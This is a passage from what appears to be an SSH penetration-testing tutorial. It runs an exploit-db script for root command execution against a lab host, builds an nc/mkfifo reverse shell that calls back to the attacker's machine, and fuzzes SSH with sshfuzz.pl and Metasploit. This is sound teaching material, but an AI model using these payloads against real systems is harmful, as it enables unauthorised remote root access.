 $ python /usr/share/exploitdb/exploits/linux/remote/46307.py 192.168.1.94 22 id
uid=0(root) gid=0(root) groups=0(root)
Instead of just running a command we can try to execute a reverse shell.

First we start the listener on our machine: sudo ncat -nlp 80.

Then we use a sh reverse shell payload in the exploit:

python /usr/share/exploitdb/exploits/linux/remote/46307.py 192.168.1.94 22 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.100 80 >/tmp/f"
Fuzzing
As fuzzing is complex, I��m only going to highlight two approaches:

Generic & automated.
Specific & manual.
Generic & automated approach
It��s possible to use a script like sshfuzz.pl to automatically fuzz a live SSH server whatever is the implementation.

It has the advantage of being simple but it��s not very targeted so it��s going to take a lot of time and miss a lot of results.

Install dependencies and launch the script is as easy as writing those two lines:

$ cpan Net::SSH2
$ ./sshfuzz.pl -H 192.168.1.94 -P 22 -u noraj -p noraj
Another automated approach that will also work on any live SSH server is to use the metasploit module auxiliary/fuzzers/ssh/ssh_version_2:

msf5 > use auxiliary/fuzzers/ssh/ssh_version_2
msf5 auxiliary(fuzzers/ssh/ssh_version_2) > set RHOSTS 192.168.1.94
msf5 auxiliary(fuzzers/ssh/ssh_version_2) > run
[*] Running module against 192.168.1.94

[*] 192.168.1.94:22 - Fuzzing with iteration 100 using fuzzer_string_giant
[*] 192.168.1.94:22 - Fuzzing with iteration 200 using fuzzer_string_giant
[*] 192.168.1.94:22 - Fuzzing with iteration 300 using fuzzer_string_long
[*] 192.168.1.94:22 - Fuzzing with iteration 400 using fuzzer_string_long
[*] 192.168.1.94:22 - Fuzzing with iteration 500 using fuzzer_string_paths_giant
[*] 192.168.1.94:22 - Fuzzing with iteration 600 using fuzzer_string_paths_giant
[*] 192.168.1.94:22 - Fuzzing with iteration 700 using fuzzer_string_paths_giant
[*] 192.168.1.94:22 - Fuzzing with iteration 800 using fuzzer_string_paths_giant
[*] 192.168.1.94:22 - Fuzzing with iteration 900 using fuzzer_string_paths_giant
[*] 192.168.1.94:22 - Fuzzing with iteration 1000 using fuzzer_string_paths_giant
...
Using those tools is easy but you have low chance of finding something exploitable.

Custom & manual approach
If you want to find more significant results and have the time to familiarize yourself with the targeted implementation you can opt for a manual approach.

Here the technique is to use an advanced generic fuzzer on a self-run SSH server and modify the source code to optimize the test execution time. So it will require to configure the fuzzer, configure and build the targeted implementation, detecting the crashes, reducing the use of resource-intensive functions to make the fuzz faster, increasing coverage, create input test-cases and input dictionaries and having a deep understanding of the SSH protocol and of the implementation.

